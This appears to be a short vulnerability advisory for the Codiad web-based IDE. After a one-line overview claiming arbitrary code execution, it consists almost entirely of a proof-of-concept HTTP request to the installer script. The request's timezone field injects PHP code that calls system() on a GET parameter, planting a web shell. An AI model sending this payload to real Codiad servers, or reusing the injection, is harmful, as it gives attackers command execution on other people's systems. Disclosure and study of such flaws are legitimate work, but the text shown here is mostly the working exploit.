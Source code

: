 # Overview

`codiad/codiad` is a web-based IDE framework with a small footprint and minimal requirements, this package are vulnerable to Arbitrary Code Execution.

# Proof of Concept

```
POST /components/install/process.php HTTP/1.1
Host: codiad.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml xml,application/xml;q=0.9,_/_;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Content-type: application/x-www-form-urlencoded
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 170

path=/var/www/html/data&amp;username=/tmp/dada&amp;password=/tmp/dada&amp;project_name=/tmp/dada&amp;project_path=/var/www/html/data/data&amp;timezone='")%3b+system($_GET["cmd"])%3b+print("'
```
